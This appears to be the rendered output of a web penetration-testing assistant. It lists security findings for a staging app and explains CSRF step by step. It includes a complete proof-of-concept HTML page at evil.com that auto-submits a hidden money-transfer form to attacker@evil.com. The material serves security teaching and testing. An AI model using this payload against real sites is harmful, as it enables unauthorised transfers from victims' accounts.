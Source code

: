 ```bash
**HIGH Severity:**
🟠 Missing CSRF Protection on State-Changing Endpoints
🟠 Session Cookie Without Secure Flag

**MEDIUM Severity:**
🟡 Missing Content-Security-Policy Header
🟡 X-Frame-Options Not Set (Clickjacking Risk)
🟡 Permissive CORS Configuration

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

🌐 [webpentest] > Explain the CSRF vulnerability in detail
💭 **Cross-Site Request Forgery (CSRF) - Deep Dive:**

**🔍 What I Found:**
Your application has POST endpoints that:
- Accept state-changing requests (login, transfer, delete)
- Rely ONLY on session cookies for authentication
- Have NO CSRF tokens or additional verification

**Vulnerable Endpoints Detected:**
- POST /api/auth/login
- POST /api/account/transfer
- POST /api/settings/update
- DELETE /api/account/close

**🎯 Attack Scenario (Step-by-Step):**

1. **Victim's Action:** User logs into staging.myapp.local
   → Browser stores session cookie: sessionId=abc123

2. **Attacker's Setup:** Creates malicious page at evil.com:
   ```html
   <!DOCTYPE html>
   <html>
   <body>
     <h1>You Won a Prize!</h1>
     <img src="cute-cat.jpg">

     <!-- Hidden malicious form -->
     <form id="attack" action="https://staging.myapp.local/api/account/transfer"
           method="POST" style="display:none">
       <input name="to" value="attacker@evil.com">
       <input name="amount" value="1000">
     </form>

     <script>
       // Auto-submit when page loads
       document.getElementById('attack').submit();
     </script>
   </body>
   </html>
   ```
